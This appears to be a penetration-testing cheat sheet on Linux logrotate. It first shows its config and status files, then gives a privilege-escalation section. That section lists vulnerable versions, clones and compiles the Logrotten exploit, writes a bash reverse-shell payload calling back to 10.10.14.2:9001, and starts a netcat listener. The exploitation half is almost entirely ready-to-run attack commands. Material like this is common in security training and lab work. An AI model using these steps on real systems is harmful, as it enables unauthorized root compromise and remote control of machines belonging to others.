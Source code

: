 - **Config File**: Global settings in `/etc/logrotate.conf`  
  `cat /etc/logrotate.conf`  
  Example:  
  ```
  weekly
  su root adm
  rotate 4
  create
  include /etc/logrotate.d
  ```

- **Status File**: Tracks rotation status  
  `sudo cat /var/lib/logrotate.status`  
  Example: `/var/log/samba/log.smbd" 2022-8-3`

- **Config Directory**: Package-specific settings  
  `ls /etc/logrotate.d/`  
  Example: `cat /etc/logrotate.d/dpkg`  
  ```
  /var/log/dpkg.log {
      monthly
      rotate 12
      compress
      delaycompress
      missingok
      notifempty
      create 644 root root
  }
  ```

## Logrotate Exploitation
**Requirements**:  
- Write permissions on log files  
- Logrotate runs as privileged user/root  
- Vulnerable versions: 3.8.6, 3.11.0, 3.15.0, 3.18.0  

- **Exploit: Logrotten**  
  ```bash
  git clone https://github.com/whotwagner/logrotten.git
  cd logrotten
  gcc logrotten.c -o logrotten
  ```

- **Create Payload**: Reverse shell example  
  ```bash
  echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
  ```

- **Check Options**:  
  ```bash
  grep "create\|compress" /etc/logrotate.conf | grep -v "#"
  ```

- **Start Listener**:  
  ```bash
  nc -nlvp 9001
  ```
